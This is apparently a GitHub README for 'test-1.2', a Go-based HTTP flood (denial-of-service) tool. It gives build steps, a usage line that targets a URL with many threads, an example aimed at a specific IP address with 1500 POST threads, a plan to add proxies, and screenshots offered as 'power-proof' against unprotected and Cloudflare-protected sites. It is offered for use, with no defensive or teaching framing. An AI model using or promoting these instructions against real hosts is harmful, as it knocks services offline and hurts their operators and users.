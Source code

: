 # test-1.2
Just simple httpflood

TODO:
Remove shity-code 
Add proxy

## Install
```sh
sudo apt install golang-go
git clone https://github.com/iaxoicmnfc/test-1.2.git
cd test-1.2
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
